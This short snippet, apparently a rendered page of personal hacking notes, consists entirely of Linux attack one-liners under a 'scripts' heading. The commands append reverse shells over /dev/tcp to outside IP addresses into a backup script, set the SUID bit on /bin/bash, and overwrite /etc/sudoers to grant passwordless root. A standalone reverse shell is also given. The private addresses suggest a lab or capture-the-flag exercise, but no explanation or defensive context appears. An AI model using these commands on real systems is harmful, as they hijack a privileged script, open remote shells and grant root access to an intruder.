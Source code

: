 

#### scripts

```
echo "/usr/bin/bash -l > /dev/tcp/192.168.45.207/22 0<&1 2>&1" >> /var/backups/etc_Backup.sh 

echo "bash -i >& /dev/tcp/<local-ip>/4444 0>&1" >> /var/backups/etc_Backup.sh 

echo "chmod u+s /bin/bash" >> /var/backups/etc_Backup.sh 

echo "user ALL=(root) NOPASSWD: ALL" > /etc/sudoers

/bin/bash -i

/bin/sh -i >& /dev/tcp/192.168.45.188/80 0>&1
```


### chmod +x !!!
